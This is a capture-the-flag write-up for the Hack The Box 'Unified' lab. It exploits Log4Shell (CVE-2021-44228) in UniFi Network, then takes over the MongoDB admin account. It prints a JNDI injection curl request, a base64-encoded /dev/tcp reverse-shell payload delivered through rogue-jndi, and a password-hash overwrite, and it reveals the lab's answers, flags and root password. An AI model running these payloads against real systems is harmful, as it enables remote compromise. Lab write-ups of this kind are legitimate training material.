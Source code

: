 # Unified
Unified is a very easy linux machine on Hack The Box Starting Point Tier 2 that focuses on the rogue jndi exploit and MongoDB.

## Task 1
**Which are the first four open ports?**
> 22,6789,8080,8443

![Open Ports](open_ports.png)

## Task 2
**What is the title of the software that is running running on port 8443?**
> UniFi Network

![Software Title](software_title.png)

## Task 3
**What is the version of the software that is running?**
> 6.4.54

We visit `https://{TARGET IP}:8443`:

![Software Version](software_version.png)

## Task 4
**What is the CVE for the identified vulnerability?**
> CVE-2021-44228

We see that The Unifi Network Application Versions prior to 6.5.54 are vulnerable to [CVE-2021-44228](https://github.com/puzzlepeaches/Log4jUnifi).

## Task 5
**What protocol does JNDI leverage in the injection?**
> ldap

## Task 6
**What tool do we use to intercept the traffic, indicating the attack was successful?**
> tcpdump

We confirm that the target website is vulnerable. First we set up `tcpdump` on the `tun0` interface and port `389` to monitor ldap connections in the network. Next we use `curl` to make an HTTP Post Request to the login page:

```bash
curl -i -s -k -X POST -H $'Host: {TARGET IP}:8443' -H $'Content-Length: 95' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://{OUR IP}/whatever}\",\"strict\":true}' $'https://{TARGET IP}:8443/api/login'
```

Checking `tcpdump`, we see an incoming ldap connection to our machine, meaning the target website is vulnerable:

![tcpdump ldap connection](tcpdump.png)

## Task 7
**What port do we need to inspect intercepted traffic for?**
> 389

## Task 8
**What port is the MongoDB service running on?**
> 27117

We make a reverse shell. We setup a netcat listener on port `4444`:

```bash
# Terminal 1
nc -nlvp 4444
```

In another terminal, we setup the exploit:
```bash
# Terminal 2
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Then we make and deliver our reverse shell:
```bash
# Terminal 2
b64=$(echo 'bash -c bash -i >&/dev/tcp/{OUR IP}/4444 0>&1' | base64)
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,$b64}|{base64,-d}|{bash,-i}" --hostname "{OUR IP}"
```

In another terminal, we use the `curl` command to start a reverse shell:
```bash
# Terminal 3
curl -i -s -k -X POST -H $'Host:{TARGET IP}:8443' -H $'Content-Length: 100' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://{OUR IP}:1389/o=tomcat}\",\"strict\":true}' $'https://{TARGET IP}:8443/api/login'
```

Then in our first terminal, we have a reverse shell:

![Reverse Shell](reverse_shell.png)

In our reverse shell, we see that the MongoDB service is running on port 27117:

![MongoDB Port](mongo_port.png)

## Task 9
**What is the default database name for UniFi applications?**
> ace

## Task 10
**What is the function we use to enumerate users within the database in MongoDB?**
> db.admin.find()

We can use the `db.admin.find()` functions to enumerate users:

![Enumerate Users](list_users.png)

## Task 11
**What is the function we use to update users within the database in MongoDB?**
> db.admin.update()

The `x_shadow` field holds the sha512 password hash. We don't know the administrator's password and can't recover it from the `x_shadow` field:

![Original Password](original_password.png)

However, we can update the administrator's password. On our own computer we use the `mkpasswd` command to create a hash of the password `password`:

```bash
$ mkpasswd -m sha-512 password
```

In our reverse shell, we set the administrator's `x_shadow` field to the value of the password hash:

![Updated Password Hash Field](updated_password.png)

We are now able to login to the target website using the username `administrator` and password `password`:

![Login](login.png)

## Task 12
**What is the password for the root user?**
> NotACrackablePassword4U2022

While logged into the target website as the `administrator`, we click on the `settings` button on the left control bar. Next we scroll down to the `Device Authentication` section where we see the credentials for the root user:

![Root Password](root_password.png)

## User Flag
> 6ced1a6a89e666c0620cdb10262ba127

![User Flag](user_flag.png)

## Root Flag
> e50bc93c75b634e4b272d2f771c33681

We connect to the target machine using our credentials for root:
```bash
ssh root@{TARGET IP}
```

Then we find the root flag:

![Root Flag](root_flag.png)